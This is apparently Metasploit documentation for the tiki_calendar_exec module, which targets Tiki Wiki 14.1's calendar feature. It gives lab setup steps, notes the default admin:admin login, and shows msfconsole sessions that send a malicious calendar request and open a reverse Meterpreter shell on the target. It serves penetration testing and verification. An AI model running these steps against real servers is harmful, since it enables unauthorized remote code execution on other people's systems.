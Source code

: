 ## Vulnerable Application

  Official Source: [sourceforge](https://sourceforge.net/projects/tikiwiki/files/Tiki_14.x_Peony/14.1/)
  Exploit-db: [edb](https://www.exploit-db.com/apps/2fa84367ba4f14afab9f51cd3e93606d-tiki-14.2.7z)
  Archived Copy: [github](https://github.com/h00die/MSF-Testing-Scripts)

  Of note, there is some discussion if 14.2 is vuln or not.
```
  1. Exploit-DB says in the title (may be wrong) 14.2 is vuln.
  2. The linked app Exploit-DB has is 14.2.
  3. Its verified on Exploit-DB.
```
vs
```
  1. Manual print statement testing from the PoC on 14.2 doesn't seem to be vuln
  2. The [notice](https://tiki.org/article414-Important-Security-Fix-for-all-versions-of-Tiki) seems to say 14.2 is the update that fixes the problem
```

### Creating A Testing Environment

  1. Create a fresh Ubuntu 16.04 w/ a LAMP install
  2. `apt-get install php-xml`
  3. Normal php install at that point!
  4. After install, login as admin:admin
  5. Go to the Control Panels
  6. Click Features
  7. Enable Calendar under Main feature
  8. Click Apply

#### Permissions

  If you wish to enable the non-logged in user (anonymous) to view/exploit the calendar
  1. Log in as admin
  2. From the top dropdown select permissions
  3. Check Anonymous near the top
  4. Click Assign

## Verification Steps

  1. Install the software as documented above
  2. Start msfconsole
  3. Do: `use exploit/linux/http/tiki_calendar_exec`
  4. Do: `set rhost 10.10.10.10`
  5. (optional, if not set, set username to empty) Do: `set PASSWORD admin`
  6. Do: `set payload php/bind_perl`
  7. Do: `set verbose true`
  8. Do: `check`
```
  [*] Attempting Login
  [+] Login Successful!
  [+] 10.10.10.10:80 The target is vulnerable.
```
  8. Do: `exploit`
  9. You should get a shell
```
  [*] Started reverse TCP handler on 10.10.10.10:4444 
  [*] Attempting Login
  [+] Login Successful!
  [*] Sending malicious calendar view packet
  [*] Sending stage (33721 bytes) 10.10.10.10.190
  [*] Meterpreter session 1 opened (10.10.10.10:4444 -> 192.168.2.190:48188) at 2016-06-19 08:50:44 -0400
```
## Options

  **PASSWORD**

  Password is set at first login. Default for admin is 'admin'.

## Scenarios

Example running against unauthenticated calendar v14.1

```
  msf > use exploit/linux/http/tiki_calendar_exec
  msf exploit(tiki_calendar_exec) > set rhost 192.168.2.190
  rhost => 192.168.2.190
  msf exploit(tiki_calendar_exec) > set targeturi /t14_1/
  targeturi => /t14_1/
  msf exploit(tiki_calendar_exec) > set payload php/meterpreter/reverse_tcp
  payload => php/meterpreter/reverse_tcp
  msf exploit(tiki_calendar_exec) > set lhost 192.168.2.229
  lhost => 192.168.2.229
  msf exploit(tiki_calendar_exec) > set verbose true
  verbose => true
  msf exploit(tiki_calendar_exec) > set username ''
  username => 
  msf exploit(tiki_calendar_exec) > exploit
  
  [*] Started reverse TCP handler on 192.168.2.229:4444 
  [*] Sending malicious calendar view packet
  [*] Sending stage (33721 bytes) to 192.168.2.190
  [*] Meterpreter session 1 opened (192.168.2.229:4444 -> 192.168.2.190:48172) at 2016-06-18 10:58:19 -0400
  
  meterpreter > sysinfo
  Computer    : tikiwiki
  OS          : Linux tikiwiki 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64
  Meterpreter : php/php
  meterpreter > 
```

